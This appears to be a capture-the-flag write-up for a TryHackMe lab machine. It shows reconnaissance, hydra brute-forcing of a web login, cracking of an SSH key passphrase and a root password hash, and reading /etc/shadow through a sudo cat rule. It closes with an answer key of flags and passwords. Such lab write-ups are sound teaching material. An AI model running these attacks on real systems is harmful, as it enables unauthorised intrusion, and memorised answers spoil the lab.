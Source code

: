 # Task 1 About this box
----

>>In this box you will learn about:
- Brute-force
- Hash cracking
- Privilege escalation

>>Connect to the TryHackMe network, and deploy the machine.

----

# Task 2 Reconnaissance
----

>>Before attacking, let's get information about the target

```bash
root@ip-10-10-19-236:~# nmap -sC -sV 10.10.131.50

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-09 05:15 GMT
Nmap scan report for ip-10-10-131-50.eu-west-1.compute.internal (10.10.131.50)
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:EF:8B:7C:B4:C5 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds

root@ip-10-10-19-236:~# gobuster dir -u http://10.10.131.50 -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.131.50
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/01/09 05:18:33 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/server-status (Status: 403)
===============================================================
2022/01/09 05:20:00 Finished
===============================================================
```

----

# Task 3 Getting a shell
----

>>Find a form to get a shell on SSH.

```bash
root@ip-10-10-19-236:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.131.50 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V
[80][http-post-form] host: 10.10.131.50   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-01-09 05:31:32
```

>>Go to the url below to get the web flag and id_rsa to ssh.  
>>URL:http://10.10.131.50/admin/panel/

```
Hello john, finish the development of the site, here's your RSA private key.
THM{brut3_f0rce_is_e4sy}
```

```bash
root@ip-10-10-19-236:~# nano id_rsa 
root@ip-10-10-19-236:~# chmod 600 id_rsa 
root@ip-10-10-19-236:~# /opt/john/ssh2john.py id_rsa > forjohn.txt
root@ip-10-10-19-236:~# john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
1g 0:00:00:08 DONE (2022-01-09 05:36) 0.1141g/s 1637Kp/s 1637Kc/s 1637KC/s *7¡Vamos!
Session completed. 

root@ip-10-10-19-236:~# ssh -i id_rsa john@10.10.131.50
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jan  9 05:39:27 UTC 2022

  System load:  0.08               Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 39%                IP address for eth0: 10.10.131.50
  Swap usage:   0%

63 packages can be updated.
0 updates are security updates.
Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106

john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```

----

# Task 4 Privilege Escalation
----

>>Now, we need to escalate our privileges.

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat

john@bruteit:~$ LFILE=/root/root.txt
john@bruteit:~$ sudo cat "$LFILE"
THM{pr1v1l3g3_3sc4l4t10n}

john@bruteit:~$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::

root@ip-10-10-19-236:~# nano hash.txt 
root@ip-10-10-19-236:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (?)
1g 0:00:00:00 DONE (2020-11-06 18:28) 3.030g/s 1163p/s 1163c/s 1163C/s 123456..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

john@bruteit:~$ su root
Password: 
root@bruteit:/home/john#
```

----

# ANSWER THE FOLLOWING :
----

1.Deploy the machine
>>No answer needed

Search for open ports using nmap.
2.How many ports are open?
>>2

3.What version of SSH is running?
>>OpenSSH 7.6p1

4.What version of Apache is running?
>>2.4.29

5.Which Linux distribution is running?
>>Ubuntu

Search for hidden directories on web server.
6.What is the hidden directory?
>>/admin

7.What is the user:password of the admin panel?
>>admin:xavier

Crack the RSA key you found.
8.What is John's RSA Private Key passphrase?
>>rockinroll

9.user.txt
>>THM{a_password_is_not_a_barrier}

10.Web flag
>>THM{brut3_f0rce_is_e4sy}

Find a form to escalate your privileges.
11.What is the root's password?
>>football

12.root.txt
>>THM{pr1v1l3g3_3sc4l4t10n}

----